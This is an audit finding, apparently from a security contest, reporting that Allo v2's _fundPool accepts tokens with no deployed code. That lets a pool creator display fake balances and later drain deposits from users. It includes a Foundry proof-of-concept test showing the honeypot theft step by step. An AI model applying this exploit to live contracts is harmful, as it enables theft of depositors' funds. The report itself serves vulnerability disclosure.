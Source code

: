 Damaged Cornflower Turkey

high

# Honeypot attack possible because lack of checks in '_fundPool()'
## Summary
Pool creator can honeypot the funds of users by creating pools with fake balances.
## Vulnerability Detail
A user can fund pools using `_fundPool` in `Allo.sol`. 
```javascript
source:contracts/core/Allo.sol

// findings marked with <=
function _fundPool(uint256 _amount, uint256 _poolId, IStrategy _strategy) internal {
        uint256 feeAmount;
        uint256 amountAfterFee = _amount;

        Pool storage pool = pools[_poolId];
        address _token = pool.token;

        if (percentFee > 0) {
            feeAmount = (_amount * percentFee) / getFeeDenominator();
            amountAfterFee -= feeAmount;

	_transferAmountFrom(_token, TransferData({from: msg.sender, to: treasury, amount: feeAmount})); <= // uses SafeTransferLib
        }

        _transferAmountFrom(_token, TransferData({from: msg.sender, to: address(_strategy), amount: amountAfterFee})); <= // uses SafeTransferLib
        _strategy.increasePoolAmount(amountAfterFee);

        emit PoolFunded(_poolId, amountAfterFee, feeAmount);
    }
```
This function makes use of `SafeTransferLib`. 

However, `SafeTransferLib` does not check if the token is an EOA or not:
```javascript
source: lib/solady/src/utils/SafeTransferLib.sol

L10: /// - For ERC20s, this implementation won't check that a token has code,
L11: ///   responsibility is delegated to the caller.
```

This means funding a pool with a non-existent token will still succeed and the token balance of the pool will be updated with the non-existing tokens, effectively creating a pool with fake tokens. The `getPoolAmount` functions returns the fake balance, which can easily trick users.

Nowadays a lot of tokens are deterministic like the next Curve LP tokens, next tokens to be minted by the Optimism Bridge.

Here's a POC outlining an attack vector:

Add this to import to `Allo.t.sol`:
```javascript
source: test/foundry/core/Allo.t.sol

import {RFPSimpleStrategy} from "../../../contracts/strategies/rfp-simple/RFPSimpleStrategy.sol";
```

POC:
```javascript
source:test/foundry/core/Allo.t.sol

    // put this in test/foundry/core/Allo.t.sol
    // run using:
    // forge test --match-contract AlloTest --match-test test_Honeypot -vvvv
    function test_Honeypot() public {
        // Get the address of a deterministic token.
        // Deterministic tokens use CREATE2 or CREATE3
        // This makes it easy for anyone to predict what the next address will be.
        // The deterministic_token does not exist yet at this stage.
        address deterministic_token = makeAddr("deterministicToken");
        address malicious_user = makeAddr("maliciousUser");

        // Register a profile with the malicious user as owner and manager
        address[] memory pool_manager;
        pool_manager = new address[](1);
        pool_manager[0] = malicious_user;
        bytes32 ppId = _registry_.createProfile(
            1337, "Honeypot", Metadata({protocol: 1, pointer: "HoneyPot4Life"}), malicious_user, pool_manager 
        );

        RFPSimpleStrategy test_strategy = new RFPSimpleStrategy(address(allo()), "RFPSimpleStrategy");

        bytes memory init_data = abi.encode(100, false, false);

        vm.prank(malicious_user);
        allo().createPoolWithCustomStrategy(
            ppId,
            address(test_strategy),
            init_data,
            deterministic_token,
            100_000 * 1e18,
            metadata,
            pool_manager
        );

        // Let's say in 1000 blocks, the non existing token is finally live
        // The malicious user starts to sollicit people to fund this non-profit pool
        vm.warp(block.timestamp + 1000);

        // The deterministic token has now been created!
        // Alice uses the `getPoolAmount()` function to check the balance of the pool.
        // Console logs = 99000000000000000000000 
        address alice = makeAddr("alice");
        vm.startPrank(alice);
        console.log("Amount in Pool: %s",test_strategy.getPoolAmount());

        // Alice funds 10000 * 1e18 tokens. 
        allo().fundPool(1, 100_00 * 1e18);
        vm.stopPrank();
        
        // The malicious user can just call the withdraw function now and take the tokens
        // that Alice deposited. Honeypot succeeded.
        vm.startPrank(malicious_user);
        test_strategy.setPoolActive(false);
        test_strategy.withdraw(100_00 * 1e18);
    }
```
This is just one of the scenarios that is possible with deterministic tokens. There are also deterministic tokens on L2's. The team has stated that they want to launch on all EVM chains + zkSync Era.

## Impact
It is very easy for a malicious user to set traps, which can easily lead to a person losing their funds, especially since the `getPoolAmount()` returns the fake balance.

## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L502-L520
## Tool used
Manual Review

## Recommendation
Create a check that checks if the token used to create a pool is not an EOA.